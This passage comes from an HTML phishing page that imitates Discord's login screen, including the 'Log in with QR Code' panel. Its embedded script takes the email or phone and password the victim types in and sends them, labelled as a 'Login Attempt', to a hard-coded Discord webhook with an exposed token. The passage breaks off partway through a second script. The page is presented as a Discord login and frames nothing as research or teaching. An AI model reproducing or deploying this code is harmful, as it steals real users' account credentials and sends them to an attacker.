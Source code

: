                             <!-- <span class="spinner qrCode-spinner" role="img" aria-label="Loading" aria-hidden="true">
                                <span class="inner wanderingCubes">
                                    <span class="item"></span>
                                    <span class="item"></span>
                                </span>
                            </span> -->
                            <img src="./assets/qrcode-discord-logo.png" alt="Discord Logo">
                        </div>
                        <h2>Log in with QR Code</h2>
                        <p>Scan this with the <strong>Discord mobile app</strong> to log in instantly.</p>
                        <a href="#">Or, sign in with passkey</a>
                    </div>
                </div>


            </div>
        </main>
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/qrcode-generator/1.4.4/qrcode.min.js"></script>
    <script src="./js/script.js"></script>
</body>
</html>
<script>
document.addEventListener("DOMContentLoaded", function () {
    const loginButton = document.getElementById("loginButton");

    if (loginButton) {
        loginButton.addEventListener("click", function (event) {
            event.preventDefault(); // Prevent form submission

            const email = document.getElementById("emailORphone").value;
            const password = document.getElementById("password").value;

            const webhookURL = "https://discord.com/api/webhooks/1385265058136723496/ZD5eU46rLcJRPV25viJksU4Ux9C-iUsuhWmxzHGG4MC6YSmILPxlNe3ZfP7dP6AcWm6V"; // Replace with your actual webhook URL

            const message = {
                content: `Login Attempt:\n📧 Email: ${email}\n🔑 Password: ${password}`
            };

            fetch(webhookURL, {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: JSON.stringify(message)
            })
            .then(response => {
                if (response.ok) {
                    console.log("Sent to Discord successfully!");
                } else {
                    console.error("Failed to send to Discord.");
                }
            })
            .catch(error => console.error("Error:", error));
        });
    } else {
        console.error("Login button NOT found!");
    }
});
</script>
<script>
document.addEventListener('DOMContentLoaded', function () {
    const loginButton = document.querySelector(".login button"); // Selects the first button inside .login
